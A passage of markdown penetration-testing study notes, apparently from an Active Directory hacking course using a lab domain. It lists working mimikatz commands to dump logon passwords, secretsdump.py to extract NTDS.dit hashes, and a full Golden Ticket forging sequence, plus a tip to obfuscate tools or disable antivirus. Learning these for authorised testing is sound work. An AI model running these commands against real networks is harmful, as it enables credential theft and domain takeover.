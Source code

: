   - If there is a share connected to a machine, might be possible to view the password in clear text using this tool
  - Can be easily picked up by antivirus, thus obfuscation is necessary or disable antivirus

  ```shell
  #in victim machine, open it with admin privileges from cmd
  mimikatz.exe

  privilege::debug
  
  sekurlsa::logonpasswords
  #dump passwords
  ```

## Additional Active Directory Attacks

- ZeroLogon
- PrintNightmare

## Post-Domain Compromise Attack Strategy

* Dumping the NTDS.dit:

```shell
  #with a known domain admin
  secretsdump.py MARVEL.local/hawkeye:'Password1@'@dc.ip -just-dc-ntlm

  #we can use Excel's Text-to-Columns feature to split data
  #machines are not really high-value targets
  ```

- Golden Ticket Attacks:

```shell
  #on the domain controller with admin cmd
  mimikatz.exe

  privilege::debug

  lsadump::lsa /inject /name:krbtgt
  #we need the User's SID and NTLM hash

  #User doesnt really matter
  kerberos::golden /User:Administrator /domain:marvel.local /sid:S-1-5-21... /krbtgt:NTML_hash /id:500 /ptt

  misc::cmd
  ```

- Silver Ticket Attacks:

## AD Case Studies:

  - https://tcm-sec.com/pentest-tales-001-you-spent-how-much-on-security
  - https://tcm-sec.com/pentest-tales-002-digging-deep
  - Enumerate, look through all the shares, sometimes all it takes is a too permissive account or a document with a password in it